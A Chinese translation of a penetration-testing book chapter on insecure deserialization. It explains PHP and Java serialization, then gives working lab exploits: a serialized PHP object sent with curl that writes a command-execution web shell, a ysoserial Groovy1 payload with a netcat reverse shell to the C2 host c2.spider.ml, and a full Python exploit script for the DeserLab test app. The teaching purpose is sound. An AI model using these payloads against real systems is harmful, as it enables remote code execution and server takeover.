# 第八章：错误的序列化

**对象序列化**是一个有趣的编程概念，旨在将内存中的结构化实时数据转换为可通过网络传输或方便存储的格式。举个例子，一个对象，比如应用程序的数据库连接详细信息的内存结构，可以被序列化，或转换为易于传输的字节流，如人类可读的字符串。此内存结构的字符串表示现在可以轻松写入文本文件，或通过 HTTP 发送到另一个 Web 应用程序。序列化后的数据字符串可以用来在内存中实例化数据库对象，并预先填充属性，例如数据库名称或凭据。接收的 Web 应用程序可以通过反序列化字节串来重建内存结构。序列化也被称为编组、腌制或扁平化，许多编程语言都提供了此功能，包括 Java、PHP、Python 和 Ruby。

根据语言的不同，序列化的数据可能表示为人类可读的文本、二进制流或二者的组合。对象序列化有许多用途，例如进程间通信、系统间通信、数据缓存或持久化。

在本章中，我们将讨论以下内容：

+   理解反序列化过程

+   分析易受攻击的应用程序代码

+   利用反序列化实现代码执行

# 滥用反序列化

利用反序列化依赖于内建方法，这些方法在对象被实例化或销毁时会自动执行。例如，PHP 为每个对象提供了多个此类方法：

+   `__construct()`

+   `__destruct()`

+   `__toString()`

+   `__wakeup()`

+   ……以及更多！

当一个新对象被实例化时，`__construct()`会被调用；而当一个新对象被销毁或在垃圾回收过程中，`__destruct()`会自动执行。`__toString()`方法提供了一种将对象表示为字符串格式的方式。这与序列化不同，因为没有类似`__fromString()`的方法可以读取回数据。`__wakeup()`方法会在对象被反序列化并实例化到内存中时执行。

PHP 通过`serialize()`和`unserialize()`函数提供序列化功能。输出是一个人类可读的字符串，可以轻松通过 HTTP 或其他协议传输。字符串输出描述了对象、其属性及值。PHP 可以序列化布尔值、数组、整数、浮点数、字符串变量，甚至实例化的类（对象）。

在下面的示例中，我们尝试序列化一个包含两个键值对的简单数组对象：`database`的值为`users`，`host`的值为`127.0.0.1`。创建此数组结构的 PHP 源代码如下：

```
array(
  'database' => 'users',
  'host' => '127.0.0.1'
)
```

当源代码被编译并由 PHP 引擎执行时，`array` 对象会被存储在某个只有处理器知道如何访问的 RAM 内存结构中。如果我们希望通过 HTTP 等媒介将 `array` 传输到另一台机器，我们必须找到内存中表示它的所有字节，将它们打包并使用 `GET` 请求或类似方法发送出去。这就是序列化派上用场的地方。

PHP 中的 `serialize()` 函数将为我们完成这项工作：找到内存中的数组结构并返回它的字符串表示。我们可以通过在 Linux 机器上使用 `php` 二进制文件，并加上 `-r` 开关来让它序列化我们的数组，并返回一个代表性的字符串。PHP 代码将把结果回显到屏幕上：

```
root@kali:~# php -r **"echo serialize(array('database' => 'users', 'host' => '127.0.0.1'));"**
a:2:{s:8:"database";s:5:"users";s:4:"host";s:9:"127.0.0.1";}
```

使用冒号分隔的输出格式如下：

+   接下来的序列化数据是一个数组（`a`）

+   数组中有 `2` 个元素

+   元素被包裹在大括号（`{}`）中，并且用分号（`；`）分隔

+   第一个元素的键是一个长度为 `8` 的字符串（`s`），称为 `database`。它的值是一个长度为 `5` 的字符串（`s`）：`users`

+   第二个关键是一个长度为 `4` 的字符串（`s`），称为 `host`。它的值是一个长度为 `9` 的字符串（`s`）：`127.0.0.1`

这些序列化数据可以跨系统或通过网络共享，或者存储在数据库中。当它被检索时，数组结构可以被重建（反序列化），并且值已经填充好。从类实例化的序列化对象与数组对象没有什么不同；它们只是包含了一些额外的字段。

以 `WriteLock` 类为例，它的作用是在反序列化时在 `/tmp` 目录下创建一个锁文件。这个应用程序将存储在 `/var/www/html/lockapp` 目录下。

以下是 `WriteLock` 类的 PHP 代码：



图 8.1：WriteLock 类定义的源代码

代码对于非开发者来说可能有点让人畏惧，但其实并不复杂。`WriteLock` 类有两个公共函数（或方法）：`write()` 和 `__wakeup()`。`write()` 函数将使用 PHP 内置的 `file_put_contents` 函数把字符串 `app_in_use` 写入磁盘上的 `/tmp/lockfile` 文件中。`__wakeup()` 方法则只是对属性进行完整性检查，并在当前对象（`$this`）上执行 `write()` 函数。这里的想法是，当 `WriteLock` 对象通过反序列化在内存中被重新创建时，锁文件 `/tmp/lockfile` 会自动被创建。

首先，我们可以看到当 `WriteLock` 对象被序列化并准备传输时的样子。记住，`__wakeup()` 只有在反序列化时才会执行，而不是在对象实例化时。

以下代码将包含`WriteLock`定义，以便我们可以使用 PHP 的`new`关键字从`WriteLock`类实例化一个`$lock`对象。代码的最后一行将回显或返回序列化后的`$lock`对象，以供检查。

以下是用于测试的`serialize.php`文件内容：



图 8.2：序列化 WriteLock 对象的源代码

序列化后的`$lock`对象的输出类似于前面的数组示例。为了清晰起见，以下内容已经清理并缩进，但典型的序列化对象不会包含格式化内容，如缩进和换行符。

让我们使用`php`解释器执行`serialize.php`文件，并观察结果：

```
root@kali:/var/www/html/lockapp# **php serialize.php**

O:9:"WriteLock":2:{
  s:4:"file";
    s:13:"/tmp/lockfile";
  s:8:"contents";
    s:10:"app_in_use";
}
```

前几个字节表示一个从`WriteLock`类实例化的对象（`o`），它包含两个属性，以及它们各自的值和长度。有一点需要注意：对于私有类成员，名称会以类名开头，并用空字节包裹。如果`WriteLock`的属性`$file`和`$contents`是私有的，序列化对象将如下所示：

```
O:9:"WriteLock":2:{
  s:4:"\**x00WriteLock\x00**file";
    s:13:"/tmp/lockfile";
  s:8:"**\x00WriteLock\x00**contents";
    s:10:"app_in_use";
}
```

### 注意

空字节通常在标准输出中不可见。在前面的示例中，为了清晰起见，这些字节被替换成了它们的十六进制表示形式`\x00`。如果我们的负载包含私有成员，我们可能需要在通过将空字节解释为字符串终止符的媒介传输负载时考虑这些字节。通常，在 HTTP 中，我们可以使用百分号`%`前缀加上空字节的十六进制表示`00`来转义空字节。也就是说，在 HTTP 中，我们会用`%00`代替`\x00`。

以下是`WriteLock`类的一个易受攻击的示例实现。该代码通过 PHP 的`$_GET`超级全局接收一个`WriteLock`序列化对象。包含序列化对象的 URL `GET`参数是`lock`，该参数存储在一个名为`$data`的变量中。然后，使用 PHP 的`unserialize()`函数反序列化该对象，以尝试恢复`WriteLock`对象的内存状态。

以下代码将存储在`index.php`中，演示了一个易受攻击的对象反序列化实现，我们将尝试利用它。`$_GET`变量中的数据直接来自用户输入，并原样传递给`unserialize()`函数：



图 8.3：对象反序列化源代码

在利用反序列化时，我们实际上无法调用`WriteLock`类提供的`write()`方法。我们实际上只能控制新对象的属性。然而，得益于 PHP 的**魔术方法**，我们不需要直接调用`write()`，因为你应该记得，`__wakeup()`方法会为我们执行这一步。魔术方法会在对象生命周期的不同阶段自动调用：在创建时、销毁时、从平面状态恢复时（即唤醒），或在序列化实时数据时（即休眠）。

在**面向属性编程**（**POP**）中，**工具链**是指从现有代码中调用的方法序列，用于成功劫持应用程序的执行流并执行恶意操作。在我们这个非常简单的示例中，我们触发的工具链只是一个从`__wakeup()`魔术方法到`write()`的快速跳跃。

以下显示了对象通过`unserialize()`反序列化后的执行流程：



图 8.4：`WriteLock`类中的 POP 工具链

这虽然不那么戏剧化，但从技术上讲，它是一个工具链。

如果我们只控制对象属性`$file`和`$contents`，我们如何利用这个漏洞呢？如果我们尝试将`$contents`写入`/tmp`以外的其他目录和文件怎么办？由于我们控制这两个值，我们可以构造我们的序列化对象，使其指向应用程序 Web 根目录中的文件，例如`/var/www/html/lockapp/shell.php`，而不是临时文件夹，并将其内容设置为一个简单的 Web Shell。当我们的恶意对象被反序列化时，`__wakeup()`方法将强制执行将 PHP Shell 写入`/var/www/html/lockapp/shell.php`，而不是`/tmp/lockfile`。

让我们运行一个简单的 Web 服务器并使`WriteLock`应用程序生效。`php`解释器可以作为独立的开发服务器，使用`-S`参数，类似于 Python 的`SimpleHTTPServer`，并且在提供文件之前可以处理`.php`文件。

我们可以使用`php`命令在本地系统的`8181`端口监听，如下所示：

```
**root@kali:/var/www/html/lockapp# php -S 0.0.0.0:8181**
**Listening on http://0.0.0.0:8181**
**Document root is /var/www/html/lockapp**
**Press Ctrl-C to quit.**

```

我们可以使用之前在`serialize.php`测试中的序列化对象，并稍作修改以进行武器化。我们将把`file`属性的值更改为`/var/www/html/lockapp/shell.php`，并将`contents`属性的值更改为 PHP Shell 代码。

和之前一样，我们将使用以下代码，并带有简单的密码保护机制：



图 8.5：Web Shell 源代码

我们要查找的 MD5 值是`WriteLockTest1`的哈希值，通过 Linux 命令`md5sum`确认：

```
root@kali:~# echo -n WriteLockTest1 | md5sum
**5d58f5270ce02712e8a620a4cd7bc5d3 -**
root@kali:~#
```

序列化的负载将如下所示，再次缩进以提高可读性：

```
O:9:"WriteLock":2:{
  s:4:"file";
    s:**31**:"**/var/www/html/lockapp/shell.php**";
  s:8:"contents";
    s:**100**:"**<?php if (md5($_GET['password']) == '5d58f5270ce02712e8a620a4cd7bc5d3') { system($_GET['cmd']); } ?>**";
}
```

### 注意

我们已更新了`file`和`contents`的值，以及适当的字符串长度，分别为`31`和`100`，如前面的代码块所示。如果指定的长度与属性值的实际长度不匹配，攻击将失败。

为了利用反序列化漏洞并希望将 PHP Shell 写入网页根目录，我们可以使用`curl`通过`GET`请求传递我们的负载。这将迫使应用程序反序列化不可信数据，并创建一个具有危险属性值的对象。

我们可以使用`curl`命令并指定`-G`参数，这会指示它发起一个`GET`请求，指定易受攻击应用程序的 URL，同时使用`--data-urlencode`开关传递 URL 编码的`lock`值。

我们的序列化数据包含单引号，这可能会干扰通过 bash 提示符执行`curl`。我们应该小心使用反斜杠（`\'`）来转义它们，如下所示：

```
root@kali:~# curl -G http://0.0.0.0:8181/index.php --data-urlencode **$'lock=O:9:"WriteLock":2:{s:4:"file";s:31:"/var/www/html/lockapp/shell.php";s:8:"contents";s:100:"<?php if (md5($_GET[\'password\']) == \'5d58f5270ce02712e8a620a4cd7bc5d3\') { system($_GET[\'cmd\']); } ?>";}'**
Lock initiated.
```

应用程序按预期返回了`Lock initiated`消息。如果攻击成功，我们应该能够通过 Web 浏览器访问 shell，因为`__wakeup() -> write()` POP gadget 会在`/var/www/html/lockapp`目录下写入`shell.php`。



图 8.6：Shell 成功执行 id 程序并显示其结果

在黑盒 PHP 应用程序中利用反序列化漏洞较为困难，因为它需要一定的源代码知识。我们需要一个合适的工具链来执行我们的代码。由于这一点，针对应用程序的攻击通常涉及第三方库中的工具，这些库的源代码更易获取。这使得我们可以追踪代码并构建一个工具链，帮助我们利用该漏洞。

### 注意

**Packagist**是一个 PHP 库和框架的仓库，应用开发者常用：[`packagist.org/`](https://packagist.org/)。

为了简化开发，**Composer** PHP 框架提供了一种方式，让应用程序可以通过一行代码自动加载库。这意味着，当`unserialize()`方法执行时，应用程序可能会有可用的库代码，因此也会有 POP gadget。

### 注意

Composer 可以在[`getcomposer.org/`](https://getcomposer.org/)找到。

# 攻击自定义协议

与 PHP 类似，Java 也提供了将对象扁平化以便于传输或存储的能力。在 PHP 序列化数据是简单字符串的情况下，Java 使用了稍微不同的方法。一个序列化的 Java 对象是一个字节流，包含一个头部，并且内容被分成块。虽然它不容易阅读，但在数据包捕获或代理日志中，它作为 Base64 编码的值会很突出。由于这是一个结构化的头部，Base64 等效的前几个字节对于每个流来说都是相同的。

Java 序列化对象流总是以魔法字节开始：`0xAC 0xED`，后跟一个两字节版本号：`0x00 0x05`。流中的其余字节将描述对象及其内容。实际上，我们只需要在野外看到这两个十六进制字节`ac ed`，就可以知道后续的字节流很可能是一个 Java 序列化对象。

研究员 Nick Bloor 开发了一款名为**DeserLab**的极具脆弱性的应用程序，该应用展示了在实现自定义 TCP 协议的应用中反序列化问题。DeserLab 并不是一个典型的应用程序，因为它可能不会直接暴露在网页上，但它可以被 Web 应用使用。DeserLab 帮助展示了 Java 反序列化漏洞是如何被利用来造成严重破坏的。

### 注意

DeserLab 和 Nick Bloor 的研究可以在 [`github.com/NickstaDB/`](https://github.com/NickstaDB/) 上找到。

我们将介绍的攻击技巧非常容易迁移到基于 HTTP 的攻击。应用程序从 cookies 或 URL 参数中读取序列化的 Java 对象并不罕见。毕竟，促进进程间或服务器间通信是序列化的主要优势之一。对于 Web 应用程序，这些数据通常在传输之前进行 Base64 编码，使其在代理日志中易于被发现。Base64 编码的 Java 序列化对象通常以字符串 `rO0ABX` 开头，解码后为 `0xACED0005`，即前面提到的魔法字节和版本号。

要启动一个新的 DeserLab 实例，我们可以调用带有 `-server` 参数的 JAR 文件，并指定要监听的 IP 和端口。为简便起见，一旦应用程序启动并运行，我们将使用 `deserlab.app.internal` 连接到这个易受攻击的应用程序。我们将使用 `java` 二进制文件在 DeserLab 目标机器上启动 DeserLab 服务器组件。

```
**root@deserlab:~/DeserLab-v1.0# java -jar DeserLab.jar -server** 
**0.0.0.0 4321**
**[+] DeserServer started, listening on 0.0**
**.0.0:4321**

```

## 协议分析

DeserLab 是一个简单的应用程序，提供字符串哈希服务，并通过 `DeserLab.jar` 应用程序文件中的内置客户端访问。随着 DeserLab 服务器组件在目标机器上运行，我们可以在攻击者机器 `kali` 上启动客户端组件，并使用 `-client` 开关，如下所示：

```
**root@kali:~/DeserLab-v1.0# java -jar DeserLab.jar -client deserlab.app.internal 4321**
**[+] DeserClient started, connecting to** 
**deserlab.app.internal:4321**
**[+] Connected, reading server hello packet...**
**[+] Hello received, sending hello to server...**
**[+] Hello sent, reading server protocol version...**
**[+] Sending supported protocol version to the server...**
**[...]**

```

一旦连接并且客户端-服务器的 `hello` 握手完成，客户端将提示我们输入要发送给服务器进行处理的数据。我们可以输入一些测试数据并观察响应：

```
root@kali:~/DeserLab-v1.0# java -jar DeserLab.jar -client deserlab.app.internal 4321
[+] DeserClient started, connecting to deserlab.app.internal:4321
[+] Connected, reading server hello packet...
[+] Hello received, sending hello to server...
[+] Hello sent, reading server protocol version...
[+] Sending supported protocol version to the server...
[+] Enter a client name to send to the server:
**name**
[+] Enter a string to hash:
**string**
[+] Generating hash of **"string"...**
[+] Hash generated:
**b45cffe084dd3d20d928bee85e7b0f21**

```

应用服务器组件终端日志回显了交互的另一方。请注意客户端-服务器的 hello 和名称消息交换；当我们制作我们的漏洞利用时，这一点非常重要。

```
[+] Connection accepted from 10.0.2.54
[+] Sending hello...
[+] Hello sent, waiting for hello from client...
[+] Hello received from client...
[+] Sending protocol version...
[+] Version sent, waiting for version from client...
[+] Client version is compatible, reading client name...
[+] Client name received: **name**
[+] Hash request received, hashing: **string**
[+] Hash generated: **b45cffe084dd3d20d928bee85e7b0f21**

```

由于这是一个自定义的 TCP 协议，我们必须使用 **Wireshark** 或 **tcpdump** 来拦截流量，而不是使用 Burp 或 ZAP。启动 Wireshark 后，我们可以捕获并检查与 DeserLab 服务器交互的数据的 TCP 流，如下图所示：



图 8.7：数据的 TCP 流

我们可以通过分析由数据包嗅探器生成的 **数据包捕获**（**pcap**）文件，以十六进制转储格式查看整个对话。在前面的图中，发送的数据是浅灰色打印的流，而较暗的部分表示服务器的响应。

尽管数据可能有些难以阅读，但每个字节都有其作用。我们可以看到熟悉的`ac ed`头部和客户端发送的各种输入，如`name`和`string`。你还会注意到，字符串值是一个序列化的`HashRequest`对象。这是一个由服务器和客户端都实现的 Java 类。序列化用于实例化一个对象，该对象将计算给定输入的哈希值并将其存储在其属性中。我们刚刚捕获的数据包是这个对象的序列化表示，正在从客户端传输到服务器，反之亦然。服务器序列化的对象还包含一个额外的属性：生成的哈希值。

当服务器接收到客户端生成的序列化对象时，该对象包含了要哈希的输入字符串，服务器会反序列化通过网络传输过来的字节，并尝试将其转换为`HashRequest`类。

由于 DeserLab 是开源的，我们可以通过查看托管在 GitHub 上的源代码来检查服务器组件上的反序列化过程：

```
[...]
oos = new ObjectOutputStream(clientSock.getOutputStream());

//Read a HashRequest object
request = **(HashRequest)**ois.readObject();

//Generate a hash
request.**setHash**(generateHash(request.getData()));

oos.**writeObject**(request);
[...]
```

我们看到，数据是通过`ObjectInputStream`（`ois`）对象从客户端读取的。这只是一个 fancy 的术语，用于指代从客户端传入的数据，我们在 Wireshark 包捕获中观察到的就是序列化的`HashRequest`对象。下一步是尝试将从`ois`读取的数据转换为`HashRequest`数据结构。这个新`HashRequest`对象的引用随后会存储在`request`变量中，之后可以像普通对象一样在内存中使用。服务器将通过调用`request`的`getData()`方法获取需要反序列化的字符串输入值，计算哈希值，并通过`setHash()`方法将其存回对象中。`setHash`方法是`HashRequest`类提供的，它的作用只是填充对象中的哈希属性。然后，数据会被序列化，并通过`writeObject()`写回到网络流中。

这样做没问题，但代码做出了危险的假设。它假设来自不可信来源（攻击者）的数据实际上是一个`HashRequest`对象。如果数据不是可以安全转换为`HashRequest`的类型，Java 会抛出异常，正如我们将要发现的那样，届时已为时过晚。

## 反序列化利用

Java 反序列化攻击之所以可能，是因为 Java 会在反序列化对象的过程中执行多种方法。如果我们控制这些方法所引用的属性，就能控制应用程序的执行流程。这就是 POP，它是一种类似于**面向返回编程**（**ROP**）的代码重用攻击。ROP 在漏洞开发中用于通过引用内存中的现有字节并利用 x86`return`指令的副作用来执行代码。

如果我们传入具有正确属性的序列化对象，我们可以创建一个执行链，最终导致在应用程序服务器上执行代码。对于非 Java 开发人员来说，这听起来像是一个艰巨的任务。毕竟，你必须熟悉 Java 或第三方库的内部工作原理。幸运的是，有一个很棒的工具可以做重活：**ysoserial**。

ysoserial 工具由研究员 Chris Frohoff 创建，旨在帮助构建序列化对象并将其武器化以攻击应用程序。它可以为许多 Java 应用程序中常用的第三方库构建代码执行有效载荷（POP 链）：

+   `Spring`

+   `Groovy`

+   `Commons Collections`

+   `Jython`

+   ...以及更多！

### 注意

可以从 [`github.com/frohoff/ysoserial`](https://github.com/frohoff/ysoserial) 下载 ysoserial 的源代码和 JAR 文件。

我们知道目标应用程序使用了 `Groovy` 库，因为我们有该 JAR 文件及其源代码。然而，这并非所有企业应用程序都适用，并且在评估过程中我们可能无法始终访问源代码。如果易受攻击的应用程序运行在服务器端，而我们与它的唯一交互是通过 HTTP `GET` 请求，那么我们必须依赖另一个信息泄漏漏洞来确定应该针对哪个库生成 POP 小工具链。当然，另一种选择是简单地尝试每个已知的 POP 小工具链，直到其中一个成功。这虽然不太优雅，且非常嘈杂，但也许能够奏效。

对于这个特定的应用程序，ysoserial 可以快速生成一个带有适当 POP 小工具的序列化对象，用于在实现 `Groovy` 库的应用程序上执行代码：

```
**java -jar ysoserial.jar [payload_name] "[shell command to execute]"**

```

在我们的案例中，有效载荷将是 `Groovy1`，并且执行的命令是一个 netcat 反向 Shell，连接回我们的 C2 服务器 `c2.spider.ml`，如下所示：

```
root@kali:~/tools# java -jar ysoserial.jar Groovy1 **"nc -v c2.spider.ml 443 -e /bin/bash"** > deserlab_payload.bin
```

默认情况下，字节会打印到控制台，因此我们必须将它们通过管道传输到文件 `deserlab_payload.bin`，以便在我们的漏洞利用中使用。生成的有效载荷的十六进制转储显示了四个熟悉的 Java 序列化魔术字节和版本序列，后面跟着 `0x73 0x72` 标志，进一步描述了序列化的数据。我们可以使用 `xxd` 来查看有效载荷文件的十六进制转储，如下所示：



之前的输出被截断了，因为为了生成一个导致代码执行的 POP 小工具，ysoserial 会创建一个相当大的序列化对象。单独的这个负载不足以攻击 DeserLab。我们不能仅仅连接到服务器，发送负载字节，然后启动一个 Shell。DeserLab 实现的自定义协议期望在尝试转换负载之前发送几个额外的字节。你还记得我们在测试数据包捕获中看到的，在哈希功能之前有一个客户端-服务器的握手。如果我们检查那个数据包捕获，我们可以找到在通信流中可以注入负载的时刻。我们知道，服务器期望在发送`name`字符串后接收到一个序列化的`HashRequest`对象。

缩进的行是从服务器接收到的数据包，其他的则是我们通过客户端发送的：



再次，我们可以看到`ac ed`的魔术字节启动了数据流，接着是协议 Hello 数据包：`0xF0 0x00 0xBA 0xAA`，最后是协议版本`0x01 0x01`。服务器或客户端发送的每个数据包都将以`0x77`为前缀，表示有一块数据即将到来，并且该块的长度（在协议版本的情况下是`0x02`）。

了解每个字节的具体含义并不是特别重要，因为我们可以清楚地看到序列化负载的开始。`0x73`和`0x72`字节（分别是小写字母`s`和`r`的等价物）代表了序列化对象的开始，如下输出所示：



为了传递一个自定义负载并利用应用程序漏洞，我们将编写一个 Python 脚本，连接到 DeserLab 应用并：

1.  发送 Hello 数据包

1.  发送版本号

1.  发送客户端名称：`test`

1.  发送通过 ysoserial 生成的利用代码

为了构建我们的利用代码，我们将使用 Python，因为它使得通过网络发送数据变得简单。脚本的开头将设置环境，并创建一个连接目标主机和端口的 socket。

首先，我们将导入 Python 的`socket`库，并设置一些描述目标的变量：

```
import socket

target_host = '**deserlab.app.internal**'
target_port = **4321**

```

我们稍后会引用这些变量。接下来，我们将使用`open()`、`read()`和最后的`close()`将`deserlab_payload.bin`文件读取到一个名为`payload`的变量中，如下代码所示：

```
**# Open the ysoserial generated exploit payload**
print "[+] Reading payload file..."
f = **open**(**'deserlab_payload.bin**', 'rb')
**payload** = f.**read**()
f.**close**()
```

`payload`变量现在包含了 ysoserial 生成的原始字节，我们将使用这些字节来利用目标主机。下一步是创建一个到 DeserLab 服务器应用的 socket，并将引用对象存储在一个名为`target`的变量中。我们将使用这个引用变量来发送和接收来自连接的数据。

```
**target** = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
**target**.connect((**target_host**, **target_port**))
```

此时，我们的脚本将模拟 DeserLab 客户端，并且为了成功连接并能够发送我们的漏洞利用代码，我们需要首先执行几个步骤。回想一下，客户端发送了一些必要的字节，包括 hello 数据包和客户端版本。

我们将使用`send()`和`recv()`方法来发送和读取响应，以便通信能够继续进行。由于某些字节可能超出 ASCII 可读范围，我们应使用它们的十六进制表示来转义。Python 允许我们使用反斜杠（`\`）和`x`前缀来表示十六进制字节。例如，字符`A`可以在 Python（以及其他语言）中表示为`\x41`。

在我们执行发送操作后，我们还应该接收来自服务器的任何数据。我们不需要存储服务器的响应，但必须接收它以清除缓冲区并允许套接字通信继续进行。

首先，我们将发送`0xAC 0xED`魔术字节，接着是 hello 数据包，最后是期望的客户端版本。我们必须为 hello 和版本数据包加上`0x77`字节，并紧跟数据长度。例如，客户端版本`0x01 0x01`需要由`0x77`（表示数据包）和`0x02`（数据包长度）前缀。

以下代码将发送魔术字节、hello 数据包和客户端版本：

```
**# Send magic bytes and version**
target.send("**\xAC\xED\x00\x05**")
target.recv(1024)

**# Send 'hello' packet**
target.send("**\x77\x04**")
target.send("**\xF0\x00\xBA\xAA**")
target.recv(1024)

**# Send client version**
target.send("**\x77\x02**")
target.send("**\x01\x01**")
target.recv(1024)
```

我们还必须发送客户端名称，可以是任意的，但这是必需的。我们只需确保`0x77`前缀和数据长度是准确的：

```
**# Send client name: test**
target.send("**\x77\x06**")
target.send("**\x00\x04\x74\x65\x73\x74**")
```

最后，我们必须从有效负载中去除魔术字节，因为我们已经发送了这些字节。服务器期望接收到不包含这些数据的对象。Python 允许我们使用`[4:]`数组表示法去除前四个字节：

```
**# Remove the 0xAC 0xED magic bytes from the payload**
payload = payload**[4:]**

```

最后一步是发送 ysoserial 有效负载，当反序列化时，希望能够执行我们的反向 Shell：

```
**# Send the ysoserial payload to the target**
print "[+] Sending payload..."
target.send(**payload**)
target.recv(1024)

print "[+] Done."
```

最终的漏洞利用脚本`exploit_deserlab.py`应如下所示：

```
import socket

target_host = '**deserlab.app.internal**'
target_port = **4321**

**# Open the ysoserial generated exploit payload**
print "[+] Reading payload file..."
f = open('**deserlab_payload.bin**', 'rb')
**payload** = f.read()
f.close()

target = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
target.connect((target_host, target_port))

**# Send magic bytes and version**
target.send("**\xAC\xED\x00\x05**")
target.recv(1024)

**# Send 'hello' packet**
target.send("**\x77\x04**")
target.send("**\xF0\x00\xBA\xAA**")
target.recv(1024)

**# Send client version**
target.send("\x77\x02")
target.send("\x01\x01")
target.recv(1024)

**# Send client name: test**
target.send("**\x77\x06**")
target.send("**\x00\x04\x74\x65\x73\x74**")

**# Remove the 0xAC 0xED magic bytes from the payload**
**payload** = **payload[4:]**

**# Send the ysoserial payload to the target**
print "[+] Sending payload..."
target.send(**payload**)
target.recv(1024)

print "[+] Done."
```

在启动漏洞利用之前，我们必须确保在我们的 C2 服务器`c2.spider.ml`上的端口`443`上运行着 netcat 监听器。如果漏洞利用成功，我们应该能够获取 DeserLab 服务器的 Shell 访问权限。

我们可以使用以下命令在端口`443`上启动一个 netcat 服务器：

```
**root@**
**spider-c2-1:~# nc -lvp 443**
**listening on [any] 443 ...**

```

剩下的就是在我们的攻击机上运行 Python 脚本，并期待最佳结果：

```
**root@kali:~/tools# python exploit_deserlab.py**
**[+] Reading payload file...**
**[+] Sending payload...**
**Done.**
**root@kali:~/tools#**

```

